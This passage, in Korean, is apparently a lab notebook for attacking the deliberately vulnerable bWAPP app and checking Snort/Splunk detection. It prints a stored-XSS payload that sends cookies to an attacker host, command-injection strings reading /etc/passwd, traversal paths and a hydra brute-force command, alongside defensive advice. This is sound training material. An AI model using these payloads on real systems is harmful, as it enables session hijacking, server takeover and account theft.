  PHPSESSID=a28ff074423b11795c7461ff760cdac5; security_level=0
  ```
  → 세션 ID 탈취 가능 확인 (세션 하이재킹 위험)
- URL에 페이로드가 그대로 반영: `xss_get.php?firstname=<script>alert('XSS')</script>&lastname=...`

**Snort 탐지 성공** (Splunk `index=pfsense 10.50.50.17`, **3건**):
```
ET WEB_SERVER Script tag in URI Possible Cross Site Scripting Attempt
[Classification: Web Application Attack] [Priority: 1] [TCP] 10.50.50.17 -> 10.0.0.254:80
```
- 3회 시도(alert XSS, alert cookie, img onerror) 모두 `Script tag in URI` 룰로 탐지
- 컨설팅 관점: 입력값 무검증 반영 → **V-02 XSS (High)**. 개선: 출력 인코딩(htmlspecialchars), CSP 헤더, HttpOnly 쿠키

**스크린샷:**





### E-4. Stored XSS

**bWAPP 메뉴:** XSS - Stored (Blog)

```html
<script>document.location='http://10.50.50.17/steal?c='+document.cookie</script>
```

- 게시글에 저장되어 다른 사용자 접속 시 실행됨

**결과:** ✅ (2026-08-04 10:08 KST)

**공격 페이로드 & 결과:**
- Blog Entry에 `<script>alert(document.cookie)</script>` 입력 후 Submit
- 저장 즉시 alert 팝업에 **쿠키 노출**: `PHPSESSID=a28ff074423b11795c7461ff760cdac5; security_level=0`
- 페이지 새로고침(F5/Resend) → **다시 alert 실행** = DB에 저장된 스크립트가 매번 실행됨
- 다른 사용자가 Blog 페이지를 열 때마다 쿠키 탈취 가능 (Reflected보다 피해 범위 훨씬 넓음)
- Blog 테이블에 기록: Owner=bee, Date=2026-08-04 03:09:07 (서버 UTC 시각)

**Snort 탐지: ❌ 미탐지 (중요 발견)**
- Splunk `index=pfsense 10.50.50.17` 검색 결과, E-4 관련 새 이벤트 **0건**
- **미탐지 원인**: Stored XSS는 POST body로 페이로드를 전송하고, 이후 응답 body에 포함되어 실행됨. Snort의 `Script tag in URI` 룰은 **요청 URI만 검사**하므로 POST body/응답 body의 스크립트를 탐지하지 못함
- **Reflected vs Stored 탐지 차이**:
  - Reflected(E-3): 페이로드가 GET 파라미터(URI)에 노출 → Snort 탐지 ✅
  - Stored(E-4): 페이로드가 POST body → DB → 응답 body로 이동 → Snort 미탐지 ❌
- **관제 시사점**: 네트워크 IPS만으로는 Stored XSS를 탐지할 수 없음 → WAF(Web Application Firewall) 또는 애플리케이션 레벨 방어(출력 인코딩, CSP) 필요
- 컨설팅 관점: **V-02 XSS (Critical)** — Stored XSS는 Reflected보다 위험도 상향. IPS 탐지 우회 가능 + 다수 피해자 발생

**스크린샷:**





### E-5. OS Command Injection

**bWAPP 메뉴:** OS Command Injection (`commandi.php`)

> **원리:** 웹앱이 사용자 입력을 `shell_exec("nslookup " . $input)` 처럼 OS 명령에 직접 연결할 때,
> 셸 메타문자(`;`, `|`, `&&`)를 삽입하면 임의 명령을 실행할 수 있다.
> SQL Injection이 DB를 장악한다면, Command Injection은 **서버 자체를 장악**하는 공격이다.

**사전 준비:**
- ✅ Bee-box DNS 설정 완료 (`echo "nameserver 10.0.10.1" | sudo tee /etc/resolv.conf`)
- nslookup이 빠르게 응답하도록 해둬야 명령 주입 결과를 바로 볼 수 있음

**실습 절차:**

1. att-mint 브라우저에서 bWAPP > `OS Command Injection` 선택 > Hack
2. DNS lookup 입력란에 아래를 **하나씩** 입력 후 Lookup 클릭:

```bash
# Step 1: 기본 동작 확인 (정상 요청)
127.0.0.1

# Step 2: 세미콜론으로 명령 주입 — 서버 사용자 확인
127.0.0.1; whoami
# 예상 결과: nslookup 결과 + "www-data" 출력

# Step 3: 시스템 정보 수집
127.0.0.1; uname -a
# 예상 결과: Linux bee-box 2.6.x ... (커널 버전)

# Step 4: 민감 파일 읽기 — /etc/passwd
127.0.0.1; cat /etc/passwd
# 예상 결과: root:x:0:0:... bee:x:1000:... 등 계정 목록 전체 노출

# Step 5: 네트워크 정보 수집
127.0.0.1; ifconfig
# 예상 결과: 서버 IP(10.0.10.50) 등 내부 네트워크 정보
```

3. 만약 `;`이 안 먹히면 다른 구분자 시도: `127.0.0.1 | whoami` 또는 `127.0.0.1 && whoami`

**확인 포인트:**
- [ ] `whoami` → `www-data` 출력 = 웹서버 권한으로 OS 명령 실행 성공
- [ ] `cat /etc/passwd` → 계정 목록 노출 = 민감 파일 접근 가능
- [ ] 캡처: 명령 주입 결과 화면 → `images/E-5-cmdi.png`

**Snort 탐지 확인:**
- Splunk: `index=pfsense 10.50.50.17` (Last 15 minutes)
- 예상 시그니처: `ET WEB_SERVER cmd=`, `ET WEB_SERVER /etc/passwd`
- ⚠️ E-4(Stored XSS)처럼 POST body 경유 시 미탐지 가능성 있음 — 이것도 중요한 발견
- 캡처: Splunk 결과 → `images/E-5-snort-splunk.png`

**관제/컨설팅 관점:**
- 위험도: **Critical** — 서버 OS 명령 실행 = 시스템 완전 장악 가능 (리버스쉘, 파일 조작, 권한상승)
- 방어: 입력값에서 셸 메타문자 제거, `escapeshellarg()` 사용, OS 명령 대신 언어 내장 함수(PHP `gethostbyname()`) 사용
- 관제 포인트: `/etc/passwd`, `cmd=`, `whoami` 등 OS 명령 키워드가 HTTP 트래픽에 나타나면 즉시 차단

---

### E-6. Directory Traversal

**bWAPP 메뉴:** Directory Traversal - Files (`directory_traversal_1.php`)

> **원리:** 웹앱이 파일 경로를 사용자 입력으로 받을 때, `../`(상위 디렉토리 이동)를 반복 삽입하면
> 웹루트 밖의 시스템 파일을 읽을 수 있다. R-3(nikto)에서 이미 traversal 흔적이 탐지되었고,
> 여기서는 **수동으로 실제 파일 열람**을 확인한다.

**실습 절차:**

1. att-mint 브라우저에서 bWAPP > `Directory Traversal - Files` 선택 > Hack
2. 페이지에 파일 선택 드롭다운 또는 URL 파라미터가 보임
3. **URL 파라미터를 직접 수정**하여 시도:

```
# Step 1: 정상 동작 확인
페이지의 기본 파일(message.txt 등)을 선택하여 정상 출력 확인

# Step 2: /etc/passwd 열람 시도
URL의 page 파라미터를 아래로 변경:
http://10.0.0.254/bWAPP/directory_traversal_1.php?page=../../../etc/passwd

# Step 3: 깊이 조절 (안 되면 ../ 추가)
?page=../../../../etc/passwd
?page=../../../../../etc/passwd

# Step 4: /etc/shadow 시도 (권한 필요 — 실패할 수도 있음)
?page=../../../etc/shadow
```

**확인 포인트:**
- [ ] `/etc/passwd` 내용이 브라우저에 표시됨 = Directory Traversal 성공
- [ ] `/etc/shadow` 는 권한 문제로 실패할 가능성 높음 (www-data 권한) — 실패해도 정상
- [ ] 캡처: passwd 열람 결과 → `images/E-6-traversal.png`

**Snort 탐지 확인:**
- Splunk: `index=pfsense 10.50.50.17` (Last 15 minutes)
- 예상 시그니처:
  ```
  ET WEB_SERVER /etc/passwd Detected in URI
  (http_inspect) WEBROOT DIRECTORY TRAVERSAL
  ```
- R-3(nikto)에서 이미 같은 룰이 탐지된 바 있음 — 수동 시도에서도 동일하게 탐지될 것
- 캡처: Splunk 결과 → `images/E-6-snort-splunk.png`

**관제/컨설팅 관점:**
- 위험도: **High** — 시스템 설정파일·소스코드·비밀키 유출 가능
- 방어: 파일 경로 입력 시 `../` 필터링, `realpath()` + 화이트리스트 기반 경로 검증, `open_basedir` 설정
- 관제 포인트: URI에 `../`, `/etc/passwd`, `/etc/shadow` 등이 포함되면 즉시 경보 → IPS 룰이 잘 탐지하는 영역

---

### E-7. Brute Force (hydra)

**bWAPP 메뉴:** 직접 사용하지 않음 — bWAPP 로그인 페이지(`login.php`)를 대상으로 hydra 실행

> **원리:** 로그인 폼에 사전(wordlist)의 비밀번호를 자동으로 대입하여 계정을 탈취한다.
> E-2(sqlmap)에서 이미 해시를 크랙했지만, 브루트포스는 **해시 없이도 계정을 탈취**할 수 있고,
> 관제 관점에서 반복 로그인 시도 탐지가 중요한 시나리오다.

**실습 절차:**

1. att-mint 터미널에서 실행:

```bash
# Step 1: 워드리스트 생성
cat > wordlist.txt << 'EOF'
admin
password
123456
bee
bug
test
root
letmein
bwapp
1234
EOF
```

2. 로그인 실패 시 응답에 포함되는 **실패 문자열 확인** (hydra가 성공/실패를 구분하는 기준):

```bash
# 틀린 비밀번호로 로그인 시도하여 실패 메시지 확인
curl -s -d "login=bee&password=wrong&security_level=0&form=submit" \
  http://10.0.0.254/bWAPP/login.php | grep -i "invalid\|error\|wrong"
# "Invalid credentials" 같은 문자열이 나오면 그걸 hydra -F 조건에 사용
```

3. hydra 브루트포스 실행:

```bash
# Step 2: hydra 실행 (HTTP POST form)
hydra -l bee -P wordlist.txt 10.0.0.254 \
  http-post-form "/bWAPP/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid" \
  -V -t 4

# 옵션 설명:
#   -l bee         : 사용자명 고정 (bee)
#   -P wordlist.txt: 비밀번호 사전
#   http-post-form : HTTP POST 방식 로그인
#   :Invalid       : 이 문자열이 응답에 있으면 실패로 판단
#   -V             : 각 시도를 출력 (verbose)
#   -t 4           : 동시 4스레드
```

4. 예상 결과: `[80][http-post-form] host: 10.0.0.254   login: bee   password: bug`

**⚠️ 실패 문자열 주의:**
- `Invalid`가 안 맞으면 hydra가 모든 비밀번호를 "성공"으로 판단함
- Step 2에서 실제 실패 응답을 확인한 후 정확한 문자열을 사용할 것
- bWAPP 버전에 따라 `Invalid credentials`, `invalid`, `not correct` 등 다를 수 있음

**확인 포인트:**
- [ ] hydra가 `bee`/`bug` 조합을 찾아냄 = 브루트포스 성공
- [ ] E-2에서 크랙한 비밀번호(bug)와 일치 확인
- [ ] 캡처: hydra 실행 결과 → `images/E-7-hydra.png`

**Snort 탐지 확인:**
- Splunk: `index=pfsense 10.50.50.17` (Last 15 minutes)
- 예상 시그니처:
  ```
  ET SCAN Hydra User-Agent Detected          ← hydra 도구 식별
  ET WEB_SERVER Brute Force Login Attempt     ← 반복 로그인 시도
  ```
- sqlmap(E-2)처럼 자동화 도구는 User-Agent로 식별되므로 탐지 가능성 높음
- 단, 적은 횟수(10회)로는 rate-based 룰에 안 걸릴 수 있음
- 캡처: Splunk 결과 → `images/E-7-snort-splunk.png`

**관제/컨설팅 관점:**
- 위험도: **High** — 약한 비밀번호 사용 시 계정 탈취
- 방어: 계정 잠금(N회 실패 시 잠금), CAPTCHA, 로그인 rate-limit, 강한 비밀번호 정책
- 관제 포인트: 동일 IP에서 짧은 시간에 다수 로그인 시도 = 브루트포스 징후 → 자동 차단 트리거

---

## 공격 타임라인 (계획)

| 시각 | 공격 | 비고 |
|------|------|------|
| 00:00-00:15 | R-1~R-4 정찰 | 스캔성 트래픽 |
| 00:20-00:40 | E-1~E-2 SQL Injection | DB 공격 |
| 00:45-01:00 | E-3~E-4 XSS | 클라이언트 공격 |
| 01:05-01:15 | E-5 Command Injection | 서버 장악 시도 |
| 01:20-01:30 | E-6~E-7 Traversal + Brute Force | 정보수집 + 인증공격 |

> 각 공격을 15~20분 간격으로 수행하여 Splunk 타임라인에서 공격 유형별로 명확히 구분

---

## 실제 수행 시각 기록표

> Splunk 타임차트(`timechart count by signature`)와 1:1 대조하기 위해, 각 공격을 실행한 **실제 시각(KST)** 을 실습 중에 즉시 기록한다.
> 시각 기준을 att-mint · pfSense · Splunk 서버가 동일하게 맞추도록 실습 전 NTP/시간 동기화를 먼저 확인한다.

⚠️ **타임존 주의사항 (스크린샷에서 확인):**
- pfSense syslog 원본 타임스탬프는 **UTC**로 전송됨 (예: R-1 실행 시 syslog에 `Aug 3 10:50` = KST 19:50)
- Splunk 계정 타임존을 **Asia/Seoul(GMT+9)**로 설정한 후에는 Splunk 표시 시각이 KST와 정확히 일치 (7:50 PM = 19:50)
- syslog 원본(UTC)과 Splunk 표시(KST)가 **9시간 차이**로 보이지만, 이는 정상 — 같은 시점을 다른 타임존으로 표현한 것
- **Phase 2 분석 시:** Splunk 검색은 KST 기준으로 시간 범위를 지정하면 됨 (타임존 설정 완료 상태)

| 단계 | 공격 | 실제 수행 시각 (KST) | 날짜 | 출발지 IP | 대상 | Splunk 확인 | Snort 탐지 |
|------|------|---------------------|------|-----------|------|-------------|-----------|
| R-1 | TCP 포트 스캔 | 19:50 | 2026-08-03 | 10.50.50.17 | 10.0.0.254 | ☑ | ☑ sfPortscan |
| R-2 | 서비스 버전 탐지 | 19:58 | 2026-08-03 | 10.50.50.17 | 10.0.0.254 | ☑ | △ (R-1과 묶임) |
| R-3 | 웹 취약점 스캔 (nikto) | 20:01 | 2026-08-03 | 10.50.50.17 | 10.0.0.254 | ☑ | ☑ 868건 |
| R-4 | 디렉토리 브루트포스 (dirb) | 20:05 | 2026-08-03 | 10.50.50.17 | 10.0.0.254 | ☑ | ☑ GPL WEB_SERVER |
| E-1 | SQL Injection (수동) | 09:29 | 2026-08-04 | 10.50.50.17 | 10.0.0.254 | ☑ | ☑ 4건 |
| E-2 | SQL Injection (sqlmap) | 09:37 | 2026-08-04 | 10.50.50.17 | 10.0.0.254 | ☑ | ☑ 211건 |
| E-3 | Reflected XSS | 10:03 | 2026-08-04 | 10.50.50.17 | 10.0.0.254 | ☑ | ☑ 3건 |
| E-4 | Stored XSS | 10:08 | 2026-08-04 | 10.50.50.17 | 10.0.0.254 | ☑ | ✘ 미탐지 |
| E-5 | OS Command Injection | | | 10.50.50.17 | 10.0.0.254 | ☐ | ☐ |
| E-6 | Directory Traversal | | | 10.50.50.17 | 10.0.0.254 | ☐ | ☐ |
| E-7 | Brute Force (hydra) | | | 10.50.50.17 | 10.0.0.254 | ☐ | ☐ |

---

## 실습 정리 (Cleanup)

> 반복 실습 시 이전 흔적이 결과를 오염시키지 않도록, 한 사이클이 끝나면 아래를 정리한다.
> **주의:** 정리 작업 자체는 Splunk에 기록된 로그(index=pfsense)를 지우지 않는다 — 분석용 원본 로그는 보존한다.

- [ ] **Stored XSS 페이로드 삭제** — bWAPP Blog에 저장한 `<script>` 게시글 제거 (E-4)
- [ ] **att-mint 산출물 정리** — `scan_*.txt`, `nikto_result.txt`, `dirb_result.txt`, `wordlist.txt`, sqlmap 세션·덤프(`~/.local/share/sqlmap/` 또는 `~/.sqlmap/output/`) 백업 후 삭제
- [ ] **bWAPP 상태 초기화** — 필요 시 bWAPP `/reset` 또는 DB 재초기화로 변조 데이터 원복
- [ ] **방화벽/Snort 임시 규칙 원복** — Phase 2·3에서 넣은 차단 규칙·Snort 차단 목록(Blocked)을 다음 실습 전 초기 상태로 되돌림
- [ ] **시각 기록 저장** — 위 "실제 수행 시각 기록표"를 사이클별로 별도 보관 (덮어쓰기 방지)
